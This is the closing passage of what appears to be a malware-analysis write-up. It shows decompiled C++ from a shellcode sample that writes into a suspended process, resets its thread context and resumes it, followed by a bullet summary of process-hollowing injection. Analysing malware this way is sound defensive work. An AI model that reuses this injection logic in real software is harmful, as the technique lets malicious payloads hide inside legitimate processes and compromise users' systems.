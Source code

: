 ``` C++
        }  
        (IAT_Struct->WriteProcessMemory_api)(hProcess, ptr_memory_1[41] + 8, ptr_optionalHeader + 52, 4, 0);  
        ptr_memory_1[44] = *(ptr_optionalHeader + 40) + v11;  
        (IAT_Struct->SetThreadContext_api)(v14, ptr_memory_1);  
        (IAT_Struct->ResumeThread_api)(v14);  
        (IAT_Struct->CloseHandle_api)(v14);  
        (IAT_Struct->CloseHandle_api)(hProcess);  
        return (IAT_Struct->ExitProcess_api)(0);  
      }  
    }  
  }  
  return result;  
}
```
so if we wanna summarize what this shellcode does it will be :

-   build IAT using runtime API resolving
-   run the parent process but in suspended state
-   unmap parent code from memory
-   map and inject the new payload which resides at 0x15A0
-   resume the process with the new payload

**here is the end of the article and I hope you learn something new and if there is any mistakes do not hesitate to tell me .**

**thanks for your time -_- ……….**
